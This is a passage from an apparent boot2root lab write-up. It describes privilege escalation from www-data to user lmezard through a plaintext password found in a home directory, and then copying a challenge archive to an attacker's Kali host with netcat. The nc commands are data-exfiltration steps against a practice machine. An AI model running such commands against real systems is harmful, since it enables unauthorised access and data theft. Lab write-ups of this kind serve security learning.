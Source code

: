 This will allow us to switch user later on.

# Privilege Escalation
## www-data

On the server, we can see a weird home in /home : LOOKATME

Inside we find a password file with `lmezard:G!@M6f4Eatau{sF"`

Let's try to switch user:

![alt text](./ressources/image-4.png)

It works, we are now lmezard.

## lmezard

In her home, we can find two files:
- `README` : "Complete this little challenge and use the result as a password for user 'laurie' to login in ssh"

- `fun` : a tar archive

Let's send the archive to our host with `nc`:
```bash
# On Kali
nc -lvp 2224 > ft_fun

# On the server
nc 192.168.56.101 2224 < fun
```

Then we extract it : `tar xvf ft_fun`

The archive contains lots of .pcap files, each containing the declaration of a C function.
